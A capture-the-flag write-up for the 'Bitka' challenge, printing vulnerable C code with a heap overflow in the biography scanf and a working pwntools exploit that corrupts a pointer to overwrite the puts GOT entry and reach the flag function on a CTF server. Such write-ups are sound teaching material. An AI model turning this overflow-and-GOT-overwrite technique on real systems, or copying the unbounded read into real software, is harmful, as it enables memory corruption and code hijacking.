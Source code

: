 # Bitka (200 points)

We are given the following code 

```c
#include <stdio.h>
#include <ctype.h>
#include <string.h>
#include <time.h>
#include <stdlib.h>
#include <unistd.h>

struct combatant
{
    char name[16];
    int class;
    int age;
    char *background;
};

void createCombatant(struct combatant *combatant);
void battle(struct combatant *combatant1, struct combatant *combatant2);
void trueWinner();

int main(int argc, char const *argv[])
{
    struct combatant *combatant1;
    struct combatant *combatant2;
    combatant1 = (struct combatant *)malloc(sizeof(struct combatant));
    combatant1->background = (char *)malloc(64);
    combatant2 = (struct combatant *)malloc(sizeof(struct combatant));
    combatant2->background = (char *)malloc(64);

    puts("TODO");
    fflush(stdout);
    sleep(1);
    puts("Napravite prvog borca!");
    createCombatant(combatant1);
    puts("Prvi borac napravljen. Sada drugi...");
    createCombatant(combatant2);
    puts("Drugi borac napravljen!");

    battle(combatant1, combatant2);

    return 0;
}

void createCombatant(struct combatant *combatant)
{
    fputs("Ime (max. 15 znakova): ", stdout);
    scanf("%15s",combatant->name);
    int redo;
    do
    {
        redo = 0;
        fputs("Odaberite klasu:\n1) Vitez\n2) Carobnjak\n3) Strijelac\n> ", stdout);
        char class[10];
        scanf("%9s",class);
        for (int i = 0; class[i]; i++)
            *class = tolower(*class);
        if (strcmp("vitez", class) == 0)
            combatant->class = 0;
        else if (strcmp("carobnjak", class) == 0)
            combatant->class = 1;
        else if (strcmp("strijelac", class) == 0)
            combatant->class = 2;
        else
        {
            puts("Klasa ne postoji, pokušajte ponovno...");
            sleep(1);
            redo = 1;
        }
    } while (redo == 1);
    fputs("Dob: ", stdout);
    scanf("%d",&combatant->age);
    fputs("Biografija: ",stdout);
    scanf("%150s",combatant->background);
}

void battle(struct combatant *combatant1, struct combatant *combatant2)
{
    puts("Bitka zapocinje.");
    sleep(1);
    puts("Chin, pft, plow...");
    fflush(stdout);
    sleep(1);
    srand(time(NULL));
    int winner = rand() % 2;
    struct combatant *victor;
    if (winner == 0)
        victor = combatant1;
    else
        victor = combatant2;
    printf("Bitka je bila duga i teska, ali na vrhu jest ostao %s\n\n", victor->name);

    char picture[1000];
    FILE *f;
    if (victor->class == 0)
        f = fopen("./knight", "r");
    else if (victor->class == 1)
        f = fopen("./wizard", "r");
    else
        f = fopen("./archer", "r");

    
    for(int i = 0;!feof(f);i++) {
        picture[i]=fgetc(f);
    }
    fclose(f);
    puts(picture);
}

void trueWinner(){
    FILE *f;
    f = fopen("./flag.txt","r");
    char flag[100];
    fgets(flag,100,f);
    printf("%s",flag);
}

```

From the looks of it we are going to have to do something with the `malloc`-ed memory.

We can see that this line 

```c
scanf("%150s",combatant->background);
```

scans 150 chars into a memory location which has only been allocated enough space for 64 chars here

```c
combatant1->background = (char *)malloc(64);
```

However since this is located on the [heap](https://en.wikipedia.org/wiki/Heap_(data_structure)) we can't do a buffer overflow. 

Let's try inputing a cyclic pattern of length 150 and see what happens
![gdb](https://i.imgur.com/UxlyXUc.png)

Bingo, we get a segfault which means that we are somehow overwriting an important piece of data.
Looking at the backtrace
![backtrace](https://i.imgur.com/BjmVo0b.png)

we find that the segfault happens at the second scanf.

So what is happening here?

![diagram](https://i.imgur.com/k5NGa6u.png)

Normally the second background pointer would point to the second combatants background, but since we have overflowed the previous combatants background it changes the address that the second pointer points to.
The program then asks us for the second combatants biography and tries writing it to this (now gibberish) address, causing a segfault. 

This allows us to write 150 chars worth of data to any arbitrary address of our choosing as long as it isn't write protected.
Since the goal here is to redirect execution to the `trueWinner` function, we can overwrite the [GOT](https://en.wikipedia.org/wiki/Global_Offset_Table) entry of another function so it points to the `trueWinner` function.

The `puts` function is called right after `createCombatant` so it's the best candidate to overwrite. Let's write our exploit code


```python
from pwn import *

elf = ELF('./bitka')

payload = b'A' *  cyclic_find('caab')     # padding
payload += p64(elf.got['puts'])           # target address of second scanf

payload2 = p64(elf.symbols['trueWinner']) # overwrite puts entry with trueWinner

r = remote(b'chal.hackultet.hr', 13018)
r.recvuntil(b': ')
r.sendline(b'name')
r.recvuntil(b'> ')
r.sendline(b'vitez')
r.recvuntil(b': ')
r.sendline(b'21')
r.recvuntil(b': ')
r.sendline(payload)                       # overwrite pointer

r.recvuntil(b': ')
r.sendline(b'name 2')
r.recvuntil(b'> ')
r.sendline(b'carobnjak')
r.recvuntil(b': ')
r.sendline(b'21')
r.recvuntil(b': ')
r.sendline(payload2)                      # overwrite GOT entry

r.interactive()
```
Running it on the server

```text
[+] Opening connection to b'chal.hackultet.hr' on port 13018: Done
[*] Switching to interactive mode
CTF2024[648369071467]CTF2024[648369071467]CTF2024[648369071467]Bitka je bila duga i teska, ali na vrhu jest ostao name

CTF2024[648369071467][*] Got EOF while reading in interactive
```

------------------

Useful resources:

[heap overflow (hacktricks)](https://book.hacktricks.xyz/binary-exploitation/heap/heap-overflow)

[heap overflow (northwestern.edu)](http://hamsa.cs.northwestern.edu/readings/heap-overflows/)
